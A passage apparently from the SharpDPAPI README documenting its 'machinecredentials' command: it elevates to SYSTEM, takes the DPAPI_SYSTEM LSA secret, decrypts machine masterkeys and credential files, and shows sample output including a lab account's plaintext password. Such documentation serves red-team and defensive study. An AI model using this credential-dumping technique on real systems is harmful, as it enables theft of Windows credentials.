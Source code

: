 

#### machinecredentials

The **machinecredentials** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Credential files.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

 C:\Temp>SharpDPAPI.exe machinecredentials

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Machine DPAPI Credential Triage

 [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
 [*] RevertToSelf()

 [*] Secret : DPAPI_SYSTEM
 [*] full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
 [*] m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

 [*] SYSTEM master key cache:

 {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
 ...(snip)...


 [*] Triaging System Credentials


 Folder : C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 CredFile : C73A55F92FAE222C18A8989FEA28A1FE

 guidMasterKey : {1cb83cb5-96cd-445d-baac-49e97f4eeb72}
 size : 544
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32782/26128
 description : Local Credential Data

 LastWritten : 3/24/2019 743 PM
 TargetName : Domain:batch=TaskScheduler{B745BF75-D62D-4B1C-84ED-F0437214ECED}
 TargetAlias :
 Comment :
 UserName : TESTLAB\harmj0y
 Credential : Password123!


 Folder : C:\WINDOWS\ServiceProfiles\LocalService\AppData\Local\Microsoft\Credentials

 CredFile : DFBE70A7E5CC19A398EBF1B96859CE5D

 ...(snip)...
